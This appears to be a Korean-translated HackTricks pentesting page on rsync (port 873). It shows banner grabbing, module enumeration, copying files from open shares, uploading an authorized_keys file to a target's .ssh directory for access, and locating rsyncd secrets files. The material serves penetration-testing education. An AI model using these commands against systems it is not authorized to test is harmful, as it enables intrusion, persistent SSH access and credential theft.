 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**는 컴퓨터와 외장 하드 드라이브 간, 그리고 [네트워크](https://en.wikipedia.org/wiki/Computer\_network) [컴퓨터](https://en.wikipedia.org/wiki/Computer) 간에 [파일](https://en.wikipedia.org/wiki/Computer\_file)을 효율적으로 [전송](https://en.wikipedia.org/wiki/File\_transfer)하고 [동기화](https://en.wikipedia.org/wiki/File\_synchronization)하기 위한 유틸리티입니다. 이는 [수정 시간](https://en.wikipedia.org/wiki/Timestamping\_\(computing\))과 파일 크기를 비교하여 수행됩니다.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) 일반적으로 [유닉스 계열](https://en.wikipedia.org/wiki/Unix-like) [운영 체제](https://en.wikipedia.org/wiki/Operating\_system)에서 발견됩니다. rsync 알고리즘은 [델타 인코딩](https://en.wikipedia.org/wiki/Delta\_encoding)의 일종이며, 네트워크 사용을 최소화하는 데 사용됩니다. [Zlib](https://en.wikipedia.org/wiki/Zlib)는 추가적인 [데이터 압축](https://en.wikipedia.org/wiki/Data\_compression)에 사용될 수 있으며,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) 또는 [stunnel](https://en.wikipedia.org/wiki/Stunnel)은 보안을 위해 사용될 수 있습니다.

**기본 포트:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## 열거

### 배너 및 수동 통신
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **공유 폴더 열거하기**

**Rsync 모듈**은 **비밀번호로 보호될 수 있는 디렉토리 공유**로 인식됩니다. 사용 가능한 모듈을 식별하고 비밀번호가 필요한지 확인하기 위해 다음 명령어를 사용합니다:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
일부 공유가 목록에 나타나지 않을 수 있으며, 이로 인해 숨겨질 수 있습니다. 또한, 일부 공유에 접근하는 것은 특정 **자격 증명**에 제한될 수 있으며, 이는 **"Access Denied"** 메시지로 표시됩니다.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### 수동 Rsync 사용

**모듈 목록**을 얻은 후, 작업은 인증이 필요한지 여부에 따라 달라집니다. 인증 없이 **목록**을 작성하고 공유 폴더에서 로컬 디렉토리로 파일을 **복사**하는 것은 다음을 통해 수행됩니다:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
이 프로세스는 **재귀적으로 파일을 전송**하며, 파일의 속성과 권한을 유지합니다.

**자격 증명**을 사용하면 공유 폴더에서 목록을 작성하고 다운로드할 수 있으며, 이때 비밀번호 입력 프롬프트가 나타납니다:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized_keys**_ file for access, use:  
콘텐츠를 **업로드**하려면, 접근을 위한 _**authorized_keys**_ 파일과 같은:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd 구성 파일을 찾으려면 다음을 실행하십시오:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
이 파일 내에서 _secrets file_ 매개변수는 rsyncd 인증을 위한 **사용자 이름과 비밀번호**가 포함된 파일을 가리킬 수 있습니다.


## References
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
